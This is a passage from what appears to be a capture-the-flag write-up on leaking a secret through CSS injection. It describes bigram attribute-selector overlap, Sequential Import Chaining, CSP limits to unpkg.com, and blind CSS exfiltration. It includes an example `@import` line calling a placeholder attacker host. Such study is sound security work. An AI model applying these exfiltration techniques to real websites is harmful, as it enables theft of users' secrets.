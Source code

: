 From there, it's just a "_simple_" game of crosswords and aligning the overlapping characters of `START` (`ab`) with `MID` (`bc`) to get `abc`, and then overlapping that with `END` (`cd`) to get the string `"abcd"`. Of course, the more characters we leak, the more accurate this is since we can overlap more characters. With this approach and using bi-grams, we only need $$36^2 \times 3 = 3888$$ CSS selectors, leading to a much more manageable payload size compared to our initial approach.

Unfortunately, if you just tried the above payload, this doesn't work --- only one request is received; because of the cascading nature of CSS, even though we theoretically applied many `background-image` for each CSS selector matched, only one single `background-image` is applied onto the element at the end. We will need a bit more firepower to get this working, but first, a little digression on why we didn't use a popular technique of leaking secrets via CSS.

### Attempting the Sequential Import Chaining Technique

One of the classic ways of exploiting CSS injections is what is known as [Sequential Import Chaining](https://github.com/d0nutptr/sic). You can view the corresponding blog post [here](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) which explains it more clearly than I ever can, but in summary, in order to deal with the blow-up problem in trying to leak a value as explained above, we can use the information gleaned from the first character (and subsequent characters) to constrain the amount of CSS selectors sent. How this is done is that an initial payload CSS file tries to load many other CSS files from the malicious server, but the malicious server waits until the first character is reported via the CSS injection before serving the next file (which will only include CSS selectors specifically targeting content that begins with the character reported), and this repeats until the entire secret is stolen. I borrowed the graphic from the blog post, which illustrates how this might look concretely:

![sic-moves](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*vWkX27iq0UoSM_p4NCtlfQ.png)

There are two primitives we need here - the ability to control **when** our content returns, and the ability to control **the content itself dynamically** based on information reported to us during the exfiltration. The tricky part here is that we are bound by remote CSS sources pointing at https://unpkg.com/, and unless there's a tunneling service they are providing that I am not aware of, you are basically stuck serving static files with no way of controlling the file content, nor can you control how quickly (or slowly) the files are served. 

Nevertheless, being a very careful person, it is worth trying to see if CSP covers an `@import url(http://attacker.com/callback)` within a CSS file served from the CSP allowed domain https://unpkg.com/. Our investigation leads to the following error message:

![it doesn't work obviously, also i added 'self' cos i am lazy](/images/newdiary/css_try_luck.png)

We can attempt to chain deeper nested calls loads to our attacker server, nesting the loading of the dynamic CSS in the 3rd/4th/.../nth CSS file in the `@import` chain beginning with CSS files from https://unpkg.com/, but at this point I was quite certain this wouldn't be possible (and if it was someone else would have found this Chrome breaking bug, not my noob ass), so we have to turn to other ways of exfiltrating the secret out.

### Blessed By CSS Variables

It just so happened that PortSwigger released an article on [Blind CSS Exfiltration](https://portswigger.net/research/blind-css-exfiltration) just a few days back, which came up as I was searching for more resources. The summary of the article is the usage of several interesting techniques to exfiltrate data from the whole webpage, which could be potentially useful to upgrade a HTML injection to something that allows you to extract sensitive data from a web page (especially in a non self-HTML injection context). While the content is brilliant, there was one trick that stood out to me that was going to be useful for us to fix up our exploit above.
